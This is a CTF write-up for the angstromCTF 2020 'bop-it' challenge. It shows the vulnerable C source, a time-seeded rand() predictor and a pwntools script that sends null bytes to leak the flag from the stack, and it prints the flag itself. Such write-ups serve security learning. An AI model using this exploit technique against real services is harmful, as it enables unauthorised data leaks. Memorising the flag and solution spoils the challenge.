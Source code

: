 ```yaml
---
layout: post
title:  "nullbyte poisoning angstrom2020 bop-it writeup"
date:   2020-03-23 #13:52:01
categories: ctf
description: this article explains about my writeup.
tags: ctf writeup
---
```


Description:

    Can you bop it? Source. Connect with nc shell.actf.co 20702.

    Author: kmh

Solution:

we are given elf binary , and a source code written in c

    bop_it: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV),
    dynamically linked, interpreter /lib64/l, BuildID[sha1]=47225f15fc7f75398783b4e93d65627f37711392,
    for GNU/Linux 3.2.0, not stripped


this is the source code :
{% highlight C %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}

{% endhighlight %}

we have to answer the correct question from
{% highlight c %}
const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};
srand(time(NULL));
char *action = actions[rand()%4];
{% endhighlight %}

till we got "Flag it!\n" as the answer , so the flag will loaded to the stack
and we can try to leak the flag by using null byte poisoning

this is my exploit to answer the correct question
{% highlight C %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main(){
  srand(time(NULL));

  const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

  char c;
	char *action = actions[rand()%4];
  write(1, action, 1);
  // wrong[strlen(wrong)-3] = action[0];
  // write(1, wrong, strlen(wrong));
}
{% endhighlight %}

and this is the python code to send our payload
{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
    generated by skeloski GEF
'''
import sys
from pwn import *
import subprocess
context.update(arch="amd64", endian="little", os="linux", log_level="debug",)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/angstrom2020/pwn/bop-it/bop_it")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    attach(r)
    guess = subprocess.Popen(['./s'] , stdout=PIPE).communicate()[0]
    log.info("my guess : " + (guess))
    p = guess
    x = "\x00" *120 # 100 works , 120 works too
    r.sendline(p)
    r.sendline(x)
    r.interactive()
    # r.recvline(timeout=0)
    r.close()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("shell.actf.co", 20702)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

and we got our flag

<img src='/images/2020-03-23-210546_672x515_scrot.png' />

FLAG : actf{bopp1ty_bop_bOp_b0p}
